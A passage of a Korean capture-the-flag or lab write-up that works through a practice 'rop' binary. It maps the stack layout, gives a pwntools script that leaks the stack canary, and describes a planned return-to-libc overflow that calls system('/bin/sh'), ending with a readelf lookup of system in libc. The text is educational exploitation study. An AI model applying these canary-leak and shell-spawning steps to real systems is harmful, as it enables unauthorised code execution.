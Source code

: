 <br>

![image](https://github.com/user-attachments/assets/a277b66a-6dad-4dda-8d55-96a5c6bb7c94)


스택 48바이트 + 8바이트 더미값 + 8바이트 카나리 + 8바이트 SFP + 8바이트 리턴 주소
로 이루어진걸 볼 수 있다  

<br>

![image](https://github.com/user-attachments/assets/6207c4e3-a548-4bbc-956e-a00d97573f53)



이렇게 카나리 값까지 다시 확인해보면 위 구조가 확실하다는 걸 알 수 있다.    

그러면 57바이트 (0x39) 쓰레기값 뒤에 오는 값이 카나리인 것을 알았으니 코드를 작성해보면  


```c
from pwn import *

p = process('./ROP/rop')
e = ELF('./ROP/rop')

def slog(name, addr): return success(': '.join([name, hex(addr)]))

buf =  'A'*0x39
p.sendafter(b'Buf: ', buf)
p.recvuntil(buf)
cnry = u64(b'\x00' + p.recvn(7))
slog('canary', cnry)

```

<br>

![image](https://github.com/user-attachments/assets/b3075ab2-e6be-49a4-9da6-5bc9b5f4c77c)

카나리 값이 정상적으로 잘 나온다.   

<br>

그럼 이제  

![image](https://github.com/user-attachments/assets/27f27c9b-fc74-46dc-8aac-cb75e61388a7)


이 부분에 해당하는 두번째 read에서 오버플로우를 일으켜 리턴주소를 바꿀 거다  
리턴 가젯을 찾아서 system 호출 후 /bin/sh를 실행하도록 바꾸면 된다  

그럼 이제 리턴 가젯을 찾아서 system 호출 후 /bin/sh를 실행하면 플래그를 얻을 수 있다
근데 해당 c코드에는 system 함수가 없으므로 함께 받은 libc.so.6 에서 찾아줘야한다

![image](https://github.com/user-attachments/assets/1062c9a5-032f-4fcf-b7c5-0e5a4ad58426)

이번 실습에서 받은 libc.so.6 파일은 우분투 예전 버전의 C 표준 라이브러리이다    

```bash
readelf -s libc.so.6 | grep " system@"
```
